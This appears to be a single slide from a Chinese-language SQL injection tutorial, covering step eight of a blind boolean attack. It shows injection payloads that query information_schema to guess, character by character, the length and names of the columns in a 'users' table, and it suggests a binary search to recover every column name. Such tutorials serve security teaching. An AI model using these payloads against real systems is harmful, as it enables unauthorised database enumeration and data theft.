

SQL注入漏洞

第八步：挨个猜解字段名
1' and length(substr((select column_name from information_schema.columns where table_name= ' users ' limit 0,1),1))=1 # 显示不存在

…

1' and length(substr((select column_name from information_schema.columns where table_name= ' users ' limit 0,1),1))=7 # 显示存在

说明users表的第一个字段为7个字符长度。

采用二分法，即可猜解出所有字段名。